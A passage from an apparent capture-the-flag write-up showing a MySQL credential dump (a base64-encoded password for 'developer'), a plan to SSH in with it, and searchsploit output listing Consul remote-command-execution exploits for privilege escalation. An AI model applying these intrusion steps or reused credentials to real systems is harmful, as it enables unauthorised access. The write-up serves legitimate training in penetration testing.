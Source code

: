 ```mysql
MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.146 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.100 sec)

```

We find a database called `whackywidget` where we managed to find `developer`'s password base64 encoded.

Let's decode the password and ssh to the machine.

![](6.png)

## **Privilege Escalation**

After some enumeration, we find a service running on port 8500 called `consul`.

This service is vulnerable to rce.

```terminal
└──╼ $ searchsploit consul
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Hashicorp Consul - Remote Command Execution via Rexec (Metasploit)                                                          | linux/remote/46073.rb
Hashicorp Consul - Remote Command Execution via Services API (Metasploit)                                                   | linux/remote/46074.rb
Hassan Consulting Shopping Cart 1.18 - Directory Traversal                                                                  | cgi/remote/20281.txt
Hassan Consulting Shopping Cart 1.23 - Arbitrary Command Execution                                                          | cgi/remote/21104.pl
PHPLeague 0.81 - '/consult/miniseul.php?cheminmini' Remote File Inclusion                                                   | php/webapps/28864.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
